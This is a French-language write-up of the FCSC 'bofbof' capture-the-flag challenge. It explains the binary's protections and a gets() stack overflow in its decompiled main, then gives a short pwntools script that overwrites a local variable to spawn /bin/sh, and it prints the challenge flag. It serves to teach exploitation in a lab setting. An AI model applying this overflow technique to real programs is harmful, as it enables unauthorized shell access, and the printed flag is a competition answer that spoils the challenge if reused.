


#### Description 

Get a shell on the remote machine to read `flag.txt`.

L'Objectif de ce challenge est d'exploiter e binaire bofbof afin de trouver le flag. 

#### Etape 1- Analyse du fichier 

**Type exécutable**
Avant toute chose, nous allons utiliser la commande file pour analyse le type d'exécutable et dans quel environement il s'exécute 

Commande : 
```
file bofbof
```

Résultat : 
```

bofbof: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=4449145718cb2fc63346e764a356d85a566a1c25, for GNU/Linux 3.2.0, not stripped

```

On remarque le binaire est exécutable sur les systèmes linux 64bits 

**Vérifier les protections**

Nous allons utiliser l'outil checksec pour vérifier les projections 

Commande : 
```
checksec --file=bofbof
```



On remarque que NX et PIE sont activée et CANARY est désactivé.

##### Explication des protections

L'analyse avec `checksec` révèle l'état des défenses mises en place par le compilateur (GCC) et le système :

- **Arch: amd64-64-little** : Le binaire est conçu pour une architecture 64 bits. Les adresses mémoire et les registres (comme `RSP`, `RIP`) font 8 octets. Le "little-endian" signifie que l'octet de poids faible est stocké en premier (d'où l'usage de `p64()` dans notre script).
    
- **CANARY : No canary found** :
    
    - _C'est la faille majeure ici._ Le "Stack Canary" est une valeur aléatoire placée sur la pile juste avant l'adresse de retour. Si on déborde, on écrase le canary, le programme le détecte et s'arrête immédiatement.
        
    - **Impact :** Comme il est absent, nous pouvons écraser les variables locales et l'adresse de retour sans que le programme ne s'en aperçoive.
        
- **NX : NX enabled (No-Execute)** :
    
    - Cette protection empêche l'exécution de code situé dans les zones de données comme la pile (Stack).
        
    - **Impact :** On ne peut pas injecter un "shellcode" (petit programme malveillant) directement dans notre buffer `local_38` pour l'exécuter. Nous sommes obligés d'utiliser le code déjà présent dans le binaire (comme la fonction `vuln`) ou de faire du ROP.
        
- **PIE : PIE enabled (Position Independent Executable)** :
    
    - Le PIE fait en sorte que l'adresse de base du binaire change à chaque lancement (ASLR).
        
    - **Impact :** Normalement, cela rend difficile de savoir où se trouve la fonction `vuln()`. Cependant, dans ce challenge, nous n'écrasons pas l'adresse de retour pour sauter vers une adresse fixe, mais nous modifions une **valeur locale** (`local_10`). Le programme utilise ensuite ses propres instructions relatives pour appeler `vuln()`, ce qui rend le PIE inoffensif dans ce scénario précis.
        
- **RELRO : Partial RELRO** :
    
    - Cela signifie que la table des fonctions externes (GOT) est placée avant les variables globales, mais reste partiellement modifiable. Dans ce challenge, cela n'a pas d'impact car nous ne ciblons pas les fonctions de la bibliothèque C (`libc`).

#### Ouvrir et analyser le fichier dans ghidra 

Une fois lancé l'outil ghidra, allez dans la partie Functions, vous verrez la liste des fonctions. Double cliquez sur la fonction **main** 

```
Fonction main 

undefined8 main(void)

{
  char local_38 [40];
  long local_10;
  
  local_10 = 0x4141414141414141;
  printf("Comment est votre blanquette ?\n>>> ");
  fflush(stdout);
  gets(local_38);
  if (local_10 != 0x4141414141414141) {
    if (local_10 == 0x1122334455667788) {
      vuln();
    }
    puts("Almost there!");
  }
  return 0;
}

Fonction vuln 

void vuln(void)

{
  system("/bin/sh");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

**Explication**

Comme on peu le voire dans la fonction main, on a deux variables , local_10 qui est initialisé par 0x4141414141414141 (AAAAAAA en strings) et la variable local_38 qui est un tableau de 40 caractères. Le programme vérifie ensuite en premier lieu si le local_10 est différent de 0x4141414141414141 et ensuite si local_10 est égale a 0x1122334455667788, si ces conditions sont remplies, il fait appel a la fonction vuln qui lance le shell **/bin/sh** 

**Mais où se trouve la vulnérabilité ?**

La vulnérabilité se trouve au niveau de gets(local_38). De base local_38 ne prend que 40 elements mais avec la fonction gets permet de recurécupérer plus d'éléments que 40 et une fois récupérer ces éléments, les 40 premiers octects sont stockés dans le local_38 et les autres données il les stockent dans les variables en dessous (en ecrassant les valeurs de ces derniers). Donc si par exemple on saisie 50 Octets, les 40 premiers seront stockés dans le local_38 et les 10 autres octets serons stockés dans le local_10 (en ecrasant 0x4141414141414141). 

**Comment exploiter**

Pour exploiter cette vulnérabilité, il suffit d'ajouter 0x1122334455667788 au 40 octets ( 40A) pour que le local_10 puisse avoir la valeur de 0x1122334455667788.

Ainsi nous allons utiliser l'outil pwntools pour exploiter.

#### Exploitation

payload python

```
from pwn import *

p=process('/home/kali/bofbof')   # p=remote('localhost',4000)

# Recevoire la ligne qui demande la saisie
p.recv(b" >>>?")

# Former le payload
payload=b"A"*40

payload +=p64(0x1122334455667788) # On utilise le p64 car il s'agit de system de 64 bits comme indique la commande file

# Envoyer  le patload

p.send(payload)

p.interactive()
```



Boom on a le shell 

>**Flag**
>**FCSC{ec30a448a777b571734d8d9e4036b3a6e87d1005446f80dffb26c3e4f5cd02ba}**
